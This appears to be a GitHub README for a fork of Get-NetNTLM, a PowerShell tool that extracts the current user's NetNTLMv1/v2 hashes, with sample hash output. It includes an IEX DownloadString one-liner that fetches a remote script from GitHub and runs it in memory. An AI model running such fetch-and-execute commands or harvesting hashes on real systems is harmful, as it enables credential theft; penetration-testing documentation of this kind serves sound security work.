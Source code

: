 # Get-NetNTLM
Fork of Get-NetNTLM. This fork includes a fix for calculating NTLMv1 hashes.

Original Author: https://github.com/elnerd/Get-NetNTLM

### Load into memory
```
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/Get-NetNTLM/master/Get-NetNTLM.ps1")
```

```bash
Get-NetNTLM-Hash

# NTLMv2 Output
Truth::SECURITY:1122334455667788:1EBBAE4631E38978BD96AFFF9D40E9C8:010100000000000081E215B0B6E2DA01E63616964D429FF2000000000200060053004D0042000100160053004D0042002D0054004F004F004C004B00490054000400120073006D0062002E006C006F00630061006C0003002800730065007200
76006500720032003000300033002E0073006D0062002E006C006F00630061006C000500120073006D0062002E006C006F00630061006C000800300030000000000000000100000000200000E062A514C37C2EF35D7B478C106C840ED1D0B1EF18AF4D418247281C06FDC1C40A0010000000000000000000000000000000000009
00400048005400540050002F00410054005400410043004B002D00530052005600520045002E00530065006300750072006900740079002E006C006F00630061006C000000000000000000

# NTLMv1 Output
User::WS01:338d08f8e26de93300000000000000000000000000000000:9526fb8c23a90751cdd619b6cea564742e1e4bf33006ba41:cb8086049ec4736c
```
